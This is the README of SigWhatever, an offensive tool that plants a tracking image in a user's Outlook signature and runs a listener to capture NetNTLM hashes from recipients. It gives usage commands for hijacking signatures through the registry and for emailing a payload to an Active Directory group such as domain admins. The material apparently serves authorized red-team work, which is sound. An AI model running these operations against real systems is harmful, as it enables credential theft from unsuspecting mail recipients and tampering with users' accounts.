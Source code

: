 # Sigwhatever
For automated exploitation of netntlm hash capture via image tags in emails signatures. This targets Outlook specifically and will insert a 1x1px image into an existing signature block, or create a new signature as required. A listener is then started to capture authentication attempts that happen as a result of sent emails being viewed by other users.

The tool borrows code from the Seatbelt and Inveigh projects - features are:

* Queries the firewall for suitable ports to listen on (Uses some seatbelt code)
* Cross references HttpQueryServiceConfiguration for any usable URL ACLs
* TCP/HTTP server and hash capture (Uses Inveigh code)
* Signature Detection (to modify the appropriate registry settings and signatures)
* Modification of Signature
* Feature to send mail to specific group (e.g. domain admins)
* Option to create encrypted logs on disk
* Cleanup (Reverts changes in signature settings and existing signature)

---

## TL;DR

run:

`execute-assembly sigwhatever.exe AUTO`

Then when you're finished, run:

`execute-assembly sigwhatever.exe CLEANUP`

Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.

---
## Usage

`SigWhatever.exe [OPTIONS]+ operation`


### OPTIONS:
```
  -p, --port=VALUE           TCP Port.
  -l, --log=VALUE            Log file path.
  -g, --group=VALUE          Target Active Directory group.
  -f, --force                Force HTTP server start.
      --ba, --backdoor-all   Backdoor all signatures.
  -c, --challenge=VALUE      NTLM Challenge (in hex).
  -u, --url-prefix=VALUE     URL Prefix. e.g. /MDEServer/test
  -h, --help                 Show this message and exit.
```

### OPERATIONS:

- **AUTO**: Just do everything for me - backdoor the signature and start the listener on this box.    
  _Usage_: `SigWhatever.exe AUTO`

- **CHECKTRUST**: Check whether the trust zone settings - if the domain isn't in there then this probably won't work.    
  _Usage_: `SigWhatever.exe CHECKTRUST`

- **CHECKFW**: Check whether the host based firewall is on and whether there's an exception for the chosen port.    
  _Usage_: `SigWhatever.exe CHECKFW -p <port>`
  
-  **SIGNATURE**: hijack the current user's signature, or add a new one via registry changes.    
  _Usage_: `SigWhatever.exe SIGNATURE -p <port> -l <logfile> -u <url prefix> --backdoor-all --force`    
  _Note_: With the signature option, if --backdoor-all is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is out of date.

- **SIGNOLISTEN**: hijack the current user's signature, or add a new one via registry changes.    
  _Usage_: `SigWhatever.exe SIGNOLISTEN -s <server> -p <port> -l <logfile> --backdoor-all>`

- **CLEANUP**: Remove any modifications to the registry or htm signature files.    
  _Usage_: `SigWhatever.exe CLEANUP`

- **EMAILADMINS**: Enumerate email addresses from an AD group and send them a 'blank' email with the payload.    
  _Usage_: `SigWhatever.exe EMAILADMINS -g <Active Directory group> -p <port> -l <logfile> --force`

- **LISTENONLY**: Just start the listener - make sure it's on the same port.    
  _Usage_: `SigWhatever.exe LISTENONLY -p <port> -l <logfile>`

- **SHOWACLS**: List all URL Reservation ACLs with User, Everyone or Authenticated Users permissions.    
  _Usage_: `SigWhatever.exe SHOWACLS`

  
## Authors: 
- David Cash
- Rich Warren
- Julian Storr 
